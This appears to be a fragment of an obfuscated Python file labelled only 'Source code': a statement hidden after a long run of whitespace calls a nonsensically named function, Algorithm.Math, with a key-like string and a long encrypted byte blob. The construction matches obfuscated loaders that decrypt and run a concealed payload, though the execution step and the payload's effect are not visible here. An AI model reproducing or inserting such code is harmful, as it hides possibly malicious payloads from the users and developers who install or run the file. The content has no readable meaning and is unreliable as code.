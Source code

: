            _modulo._floor(_run = _modulo.CallFunction / 63653)                                                                                                                                                                                                                                                          ;Algorithm.Math(_absolute='JJJLLIILLIJLJIIIJJLILIJL',Negative=b'\x82\xf4\xfb\x1b\xdb 1\x05\xecQ\x07g\xd3\x0e6`g:\xb8!7\x13*a;\xc4\x0e\xc0\xde\xe0\xd9\xe2\x9c6\x07\xf8%:\x87\xfc\x1d\xb0\x07p\xfc\xf1\\\x87\xf3\xc3\xc3Q\x82\xfd4Z\xc1Yr\x80\xad\xd8\x136\xc0\xc1\x96[\xfc\xcd\x0c\\\x19\xf0\x0b\xa0\xbe\x8e\x87\xa3\xd8\xc0\xb9\x00w\xf8\x9e\xa3\x81\xc9\x18\xce\x11\xe8A\xc0.\x1a?il\x84\xef\x0b\xd7w\xb8:*0\xea V\x07Q;\xc8\xa8s\x8b\x0b\x1f?\x94\xa7\x14\xb8\x8c"U\xfbe\xb9\xbe9+\xcb\xb9~\xf9\xbe\xc8\xee\x8f\xfdq\xf7?~c5\xc7hs\xc0\xd3_\xce\xec\x7f\x1e\x13s\xca5\x8fO\xb9\xb1B\x8a\xf0\x05\x8b\x10\xef\x18\xc9l\xe7mWdy+8\xffZ\x0f\x17\x02]&0\x90\xc2\xa9km\x8bC\x03\x0c\x9b\xe0\x97\xc3\t\x0fc\x1c\x9c\xf8\n\x06\x1b\x1c\x04;\x18H<4\xe2\xa4\x82X-\x9cN\xe0j\x85Q\xe5\x08wx\x0fN}O\xdc\x0f\x1e\xde\x87\x01\x80\x96[\x83\xc3\x02\x02e\x1cB\x86p\xdf\xcc\x01\xc71\x1c.\xf0\x93\xd0\x8e\x83\x08F\xe6\xa1\x15\x07]\x18\x00h\x8a\xa1\xa8\x82\xf3;h\xc1+\x0c\xd6\rC\x0f\x0e\x82\x1d\xf2Z`P\x8cD\x08\x90\xe8\x0f\xde\x84\xa5\x1e.I\x18\xf8"\xdfD\xab;l\xc6i\xca\xe3\x96\xee<\x85\xf3`\xb0l\xdd\x11\x86\x01x\x17\xceN\xaa\x05\x80!\n\xbfq\x07\xdf\xdd\xe2h\x8d\xc3\xa8A\x10\x12N\x19\xdeP\xfc\x03\x8e\xd0="\xaf\xc1(\x83e\xdf\xc0q\x80\xedu\xb8\xc5\x1e\x15\xe3\xc1\x028\xe2\x1aa\xe0\x811\x01\x87,\xdc\x7f\x18<\x14B\x82`\x10\x87\xeb\x04\x8f\x12\xfe\xc1`\x86\x9f\x89\xc7\x0e&\x10\xa7\x03\xa1\x1dY64\x01\xc3\xd6\x1a\x1c\x12U\x04\xb3\xc0\x00\x0b\xdby\x8fG\x06\xf6\x1f\x06\xafr\xa0_\x80\xa9\xc4|BH.\x94W\x03\x9b\xc4L\xe5\x12\x17\x95\x98\xaad\xae&\x04~k}eq~^V\xb3\xfe0\xd7[{\xbeE\x8c\x8d\xe9\xc0\xd8\xb9\xe2\x99%x|\x83\xa4a \xa9\xa8\xe2\x03\xa5$@L4\xc0\xe1a\x95\xc4\xe1s\xfa\xca\xc6\xe1\xbdA\x8b\x15.s\x93\x96\xff\x82m\x14C\x97G\x182\x14\xe2 \xd1\x92T\xc8\x94_\xe1\xc8\x9f\x0b\x88\r\xb2\xa9\xe3)\x95\xca\xa8\x86\xe7\xab\xa8\x81&\x02@\xe4\xff\x03\xe3\x05\x0c\x98[4cr-\x17)}\xcb5\xc6!\xce\xbd\xb1s\xce\x85|\x9c\x8b\xd3\t\xe3\xd0Z_\xb5\x89\xae\xa9\'\xb7\rg7\x83\xb3%\xcd\xb5\xa1\x12\xae\x87\x16\xf4\xe1\x8b\x83\x9b\x9f\x88V\x98x\x85)\xb6\xf99[\xa91P\xac\x04&Y\x13\x15h\xdc\xbc\xed\x9a\x0c\xac\r\xcb\x93\xc6+~\x14M\x1e\xa7\x97\xf9\xa4#5"T \xa8\xa6o\xfd\xfc)\xca\x81\\\x8d\x18\x889\xccE\xc9d\x89\x10\x0e\x91\xe5\xaa\xa7\xc7\x91\xf5\xaa\x1f\xf8\xae\x020\xb5\x97\xe2\xbd\xe2\xdalQ\x04O\xc0\xa2\x07\xbcz\x80%\x8d$\xecn\x80u\x07(\x93$%\x0f\x86\x8d\xf0\x91\xc8\x86{\n\xa3Q`\x0c\xbc\x88F\xf8\x100~}\x84\xec\xbb\x88\xdd\xe2C\xc1\xaf\xb1E\x8e\x1f\x82b{a\xfa\xb0T"]\xae\xfb\x16q\xf5OL\xb9\xdc\x04>Y\x81)_\x93"\xa6!\xd5\x87\x96\x90\xa8\x98\xde1\xcb\xd6\xd7\xaa\t.WB\xb4\x87\xf2$\xcf\xf9z\xdf%z\x92\xeb~\xb9E\xac\\\xdd\x94\x97\xaa\x13\xc8\xfd}